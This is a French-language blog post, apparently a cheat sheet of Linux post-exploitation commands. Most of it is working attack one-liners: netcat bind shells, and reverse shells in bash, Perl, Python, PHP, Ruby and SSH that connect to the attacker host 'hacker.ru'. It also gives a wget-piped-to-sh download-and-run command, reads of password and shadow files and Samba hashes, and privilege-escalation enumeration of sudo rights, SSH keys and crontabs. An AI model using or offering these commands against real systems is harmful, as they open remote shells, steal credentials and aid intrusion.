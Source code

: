 ```yaml
---
layout: post
title: "Commandes de post-exploitation Linux"
description: "Commandes de post-exploitation Linux"
category: Post-Exploitation
tags: [Linux, Post-Exploit, BindShell, ReverseBindShell]
---
```

{% include JB/setup %}

## Création d'une porte dérobée ##

### Création d'un bindshell ###

~~~~~~~
# Netcat
nc -e /bin/bash -lp 8080
nc -e /bin/bash -l  8080
~~~~~~~

### Création d'un reverse bindshell ###

{% highlight Bash %}
# Pure shell
/bin/bash < /dev/tcp/hacker.ru/80 1>&0
bash -i >&  /dev/tcp/hacker.ru/80 0>&1
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc hacker.ru 80 >/tmp/f

# Netcat
nc -e /bin/bash hacker.ru 80

# Perl
perl -e 'use Socket; $i="hacker.ru"; $p=80; socket(S,PF_INET, SOCK_STREAM, getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};'

# Python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(("hacker.ru",80)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'

# Php
php -r '$sock=fsockopen("hacker.ru",80);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby
ruby -rsocket -e'f=TCPSocket.open("hacker.ru",80).to_i; exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# SSH
ssh -NR 80:localhost:22 user@hacker.ru
{% endhighlight %}


## Téléchargement et exécution ##

~~~~~~~
wget http://server/file.sh -O- | sh
~~~~~~~


## Comptes utilisateurs et mots de passe##

~~~~~~~
# Compte système
cat /etc/passwd /etc/shadow /etc/security/passwd /etc/master.passwd
cat /etc/group /etc/gshadow
getent passwd
getent group

# SMB
pdbedit -L -w
pdbedit -L -v

# Mail account
cat /etc/aliases
find /etc -name aliases
getent aliases

# NIS accounts
ypcat passwd
~~~~~~~

## Elévation de privilèges ##

~~~~~~~
sudo -l

ls -alh /home/*/.ssh/ /root/.ssh/

crontab -l
cat /var/spool/cron/crontabs/* | cat /var/spool/cron/*
for user in $(cut -f1 -d: /etc/passwd); do echo $user; crontab -u $user -l; done # (Lists all crons)
~~~~~~~

## Autres commandes ##

D'autres commandes sont disponibles [ici]({{ ASSET_PATH }}/ressources/PostExploitation/LinuxUnixBSD/LinuxUnixBSDPostExploitationCommandList.html).
